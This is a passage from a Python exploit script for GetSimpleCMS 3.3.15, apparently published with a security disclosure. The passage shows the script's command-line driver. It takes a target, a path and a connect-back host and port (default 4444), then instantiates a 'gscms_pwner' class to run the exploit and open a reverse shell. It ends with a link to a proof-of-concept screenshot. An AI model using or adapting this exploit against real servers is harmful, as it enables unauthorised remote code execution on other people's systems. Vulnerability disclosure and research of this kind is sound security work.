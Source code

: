 ```python
            print "(-) invalid target uri!"
            sys.exit(-1)

def main():
    if len(sys.argv) < 4:
        print "(+) usage: %s <target> <path> <connectback:port> [username]" % sys.argv[0]
        print "(+) eg: %s 172.16.175.156 /" % sys.argv[0]
        print "(+) eg: %s 172.16.175.156 /GetSimpleCMS-3.3.15/ 172.16.175.1:909" % sys.argv[0]
        print "(+) eg: %s 172.16.175.156 /GetSimpleCMS-3.3.15/ 172.16.175.1:909 admin" % sys.argv[0]
        sys.exit(1)
    t = sys.argv[1]
    p = sys.argv[2]
    if not p.endswith("/"):
        p += "/"
    if not p.startswith("/"):
        p = "/%s" % p
    if ":" not in sys.argv[3]:
        cb_port = 4444
        cb_host = sys.argv[3]
    else:
        cb_port = sys.argv[3].split(":")[1]
        cb_host = sys.argv[3].split(":")[0]
        if not cb_port.isdigit():
            cb_port = 4444
        else:
            cb_port = int(cb_port)
    u = None
    if len(sys.argv) == 5:
        u = sys.argv[4]
    gp = gscms_pwner(t, p, u, cb_host, cb_port)
    gp.exploit()

if __name__ == '__main__':
    main()
```

<img src="https://ssd-disclosure.com/wp-content/uploads/2019/01/poc-1024x580.png">
